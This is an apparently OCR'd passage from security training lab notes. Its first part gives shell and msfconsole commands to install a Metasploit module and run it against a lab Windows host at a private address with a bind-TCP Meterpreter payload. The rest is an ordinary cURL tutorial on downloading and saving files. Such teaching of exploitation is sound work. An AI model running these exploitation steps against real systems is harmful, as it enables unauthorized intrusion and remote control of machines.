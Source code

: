 8 - Take a look at the file vulnserv.rb and place it in your Ubuntu host via SCP or copy it and paste the code into the host.
 
 
------------------------------
 
cd /home/strategicsec/toolz/metasploit/modules/exploits/windows/misc
 
vi vulnserv.rb    (paste the code into this file)
 
 
 
cd ~/toolz/metasploit
 
./msfconsole
 
 
 
use exploit/windows/misc/vulnserv
set PAYLOAD windows/meterpreter/bind_tcp
set RHOST 192.168.88.129
set RPORT 9999
exploit











----------------------------------------------HTTP: The Foundation ----------------------------------------------

Introduction to HTTP with cURL

Do all of the tasks on http://conqueringthecommandline.com/book/curl starting from section 3.2 to the end of the page.



#############################
# 1. Download a Single File #
#############################
The following command will get the content of the URL and display it in the STDOUT (i.e on your terminal).
$ curl http://strategicsec.com

To store the output in a file, you an redirect it as shown below. This will also display some additional download statistics.
$ curl http://strategicsec.com > strategicsec-com.html


#####################################
# 2. Save the cURL Output to a file #
#####################################
We can save the result of the curl command to a file by using -o/-O options.
	•	-o (lowercase o) the result will be saved in the filename provided in the command line
	•	-O (uppercase O) the filename in the URL will be taken and it will be used as the filename to store the result
